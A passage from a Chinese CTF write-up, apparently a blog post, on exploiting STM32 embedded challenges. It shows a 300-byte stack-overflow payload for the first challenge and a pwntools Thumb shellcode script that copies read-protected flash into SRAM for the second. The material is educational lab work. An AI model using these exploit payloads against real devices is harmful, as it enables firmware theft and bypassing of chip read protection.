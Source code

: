 打进去发现并不能成功，于是用一些测试数据 111122223333444455556666777788889999  
 打入内存看一下，然后用 openocd 来 dump 内存。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FMiaMMfBpPgCdBaulnx77acPib49NJkXVt7dhedMl5LRWPU1gMJYllywpiaFTPsNgpoQrV67XTZibyTPbV3UUOsEpA/640?wx_fmt=png&from=appmsg "")  
  
  
直观看输出，整齐的 4 字节错位了1 个字节，POP LR 的内存肯定是 4 字节对齐的，所以需要重新用一些垃圾数据补齐一下，前面补充 3 字节数据就重新对齐了。  
  
VUL 0D 0A ，其实只会接收到 0D。  
  
构造如下 payload ，刚好 300 字节。  
```
61 61612D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D 5500082D
```  
  
此时可以点亮 PB1。  
## PB2  
  
绕过 STM32 读保护，在 Flash 地址 0x08030030 处读取 flag。  
  
rdp 是不会绕的，参考官方 wp，就算故障注入打成功了也读不出 Flash。  
  
利用上个挑战 PB1 的栈溢出，构造 shellcode，把 Flash 地址 0x08030030 的数据复制到 SRAM 内存。  
```
from pwn import *context.arch = 'thumb'shellcode = """LDR R0, =0x20000520LDR R1, =0x08030030MOV R2, #0x20LDR R3, =0x8000243BLX R3end:B end"""shellcode = asm(shellcode)shellcodebase = 0x20000000 + 0x891payload = b'A' * 3 + p32(shellcodebase) * 5 + shellcodepayload = payload.ljust(300, b'd')print(" ".join(f"{x:02x}" for x in payload))
```  
  
然后 dump sram 内存就可以了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FMiaMMfBpPgCdBaulnx77acPib49NJkXVtM6bBcIXQ76UeLyemsiaJSuPv6YWdkoianrj7jeOFwh7GPbSEaDLvR0FA/640?wx_fmt=png&from=appmsg "")  
  
# 总结  
  
本系列实验通过 DAP 调试、OpenOCD 工具、固件逆向和经典的嵌入式漏洞利用（如堆栈溢出、Thumb 指令集等）实现了在读保护芯片上的 SRAM 数据提取与 Flash 绕读。针对不同端口的攻防挑战，不仅涉及调试技巧，更融合了固件逆向与漏洞利用的实战思路，适合嵌入式安全和 CTF 爱好者参考。  
  
  
学习更多逆向技巧，请持续关注二进制磨剑公众号。  
  
  
   
  
  
